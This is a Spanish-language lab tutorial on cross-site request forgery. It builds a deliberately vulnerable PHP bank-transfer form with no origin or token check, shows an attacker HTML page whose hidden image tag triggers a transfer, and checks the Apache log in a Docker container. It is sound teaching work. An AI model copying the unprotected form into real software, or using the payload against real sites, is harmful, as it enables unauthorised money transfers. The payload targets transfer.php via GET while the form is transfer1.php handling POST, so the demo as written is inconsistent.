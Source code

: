 Crear el archivo vulnerable: transfer1.php. Este archivo php está ubicado en la entidad bancaria online y nos permite realizar una transferencia.

~~~
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
$amount = $_POST["amount"];
echo "Transferidos $$amount";
}
?>
<form method="post">
<input type="number" name="amount">
<button type="submit">Transferir</button>
</form>
~~~

![](images/csrf1.png)

El código no verifica el origen de la solicitud y cualquier página externa puede enviar una petición maliciosa.

### Explotación de CSRF
---
El atacante crea un archivo malicioso (csrf_attack.html):

~~~
<!DOCTYPE html>
<html>
<body>
	<img src="http://localhost/transfer.php?amount=1000">
</body>
</html>
~~~

Este archivo no está ubicado en la web del banco sino que está ubicada en una web del atacante o alguna utilizada por él. 
Fíjate que el enlace a este archivo http puede haberse hecho llegar a través de cualquier medio: email, o haber sido falsificada.

Cuando el usuario autenticado accede a esta página:

![](images/csrf2.png)

- La imagen no se carga realmente.

- El navegador ejecuta la petición a transfer.php automáticamente.

- Se transfiere dinero sin que el usuario lo sepa.

Revisamos el log de apache para confirmar el ataque. Normalmente está en /var/log/apache2/access.log, como nosotros lo tenemos en un contenedor docker, lo buscamos allí, bien en access.log o en other_vhosts_access.log.

~~~
docker exec lamp-php83 /bin/bash -c "tail -5 /var/log/apache2/other_vhosts_access.log"
~~~

